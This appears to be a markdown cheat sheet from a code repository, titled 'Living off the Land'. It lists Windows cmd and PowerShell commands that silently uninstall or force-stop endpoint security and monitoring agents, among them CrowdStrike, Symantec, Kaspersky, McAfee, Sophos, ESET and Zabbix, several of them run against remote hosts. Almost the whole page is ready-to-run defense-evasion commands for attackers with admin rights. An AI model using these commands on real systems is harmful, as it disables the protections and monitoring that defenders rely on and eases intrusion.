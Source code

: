# Living off the Land

TODO: Convert command prompt to Powershell cmdlets

## 01 - Uninstall Third-Party Endpoints

### 1.1 - MalwareBytes

#### 1.1.1 - Command Prompt

```
C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot
```

#### 1.1.2 - PowerShell

```
PS C:\> Start-Process -FilePath "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" -NoNewWindow -ArgumentList ("/silent","/noreboot")
```

## 02 - Disable Third-Party Endpoints

### 2.1 - CrowdStrike

Command Prompt

```
C:\> net.exe stop "CrowdStrike Falcon Sensor Service"
```

PowerShell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "CrowdStrike Falcon Sensor Service" }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd.exe /c "net.exe stop \"CrowdStrike Falcon Sensor Service\"" }
```

### 2.2 - Symantec

Command Prompt

```
C:\> net.exe stop "Symantec Endpoint Protection"

C:\> sc.exe \\<IP> stop "Symantec Endpoint Protection"
```

PowerShell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Symantec Endpoint Protection" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Symantec Endpoint Protection"}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd.exe /c "net.exe stop \"Symantec Endpoint Protection\""}
```

### 2.3 - Kaspersky

```
PS C:\> Get-Service [-ComputerName <IP>] -Name KAVFS,kavfsslp,klnagent | Stop-Service -Force
```

### 2.4 - Zabbix

Command Prompt

```
C:\> net.exe stop "Zabbix Agent"

C:\> sc.exe \\<IP> stop "Zabbix Agent"
```

PowerShell

```
PS C:\> Get-Service [-ComputerName <IP>] -Name "Zabbix Agent" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {cmd /c "net.exe stop \"Zabbix Agent\""}

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Stop-Service -Force -Name "Zabbix Agent"}
```

## 03 - Uninstall Endpoints

### 3.1 - Syntax

#### 3.1.1 - Command Prompt

```
C:\> wmic product get name /value
```

> [!NOTE]
> Some AVs particular anti-malware that is installed in windows taken measures to prevent attackers to uninstall it. But not all of them. When uninstalling the software you must have **administrative privileges**.

```
C:\> wmic product where name="<software_name>" call uninstall /nointeractive
```

#### 3.1.2 - PowerShell

TODO: Convert the commands to cmdlets

### 3.2 - CrowdStrike

#### 3.2.1 - Command Prompt

```
C:\> wmic.exe product where "description='CrowdStrike Sensor Platform'" call uninstall /nointeractive
```

### 3.2 - ESET

#### 3.2.1 - Command Prompt

```
C:\> wmic product where name="ESET File Security" call uninstall /nointeractive
```

### 3.3 - McAfee

#### 3.3.1 - Command Prompt

```
C:\> "C:\Program Files\McAfee\wps\1.32.165.1\mc-update.exe" /uninstall

wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive

wmic product where name="McAfee Agent" call uninstall /nointeractive

wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive

wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive

wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
```

### 3.4.1 - MalwareBytes

#### 3.4.1.1 - Command Prompt

```
C:\> wmic product where name="Malwarebytes Managed Client" call uninstall /nointeractive
```

### 3.5.1 - AVG

#### 3.5.1.1 - Command Prompt

```
C:\> wmic product where name="AVG 2015" call uninstall /nointeractive
```

### 3.6 - Webroot

#### 3.6.1 - Command Prompt

```
C:\> wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
```

### 3.7 - Symantec

#### 3.7.1 - Command Prompt

```
C:\> wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive

wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
```

### 3.8 - Sophos

#### 3.8.1 - Command Prompt

```
C:\> wmic product where name="Sophos System Protection" call uninstall /nointeractive

wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive

wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
```

---
## References

### LOFLCAB

- [LOFLCAB: Win32_Product](https://lofl-project.github.io/loflcab/WMI/Win32_Product/)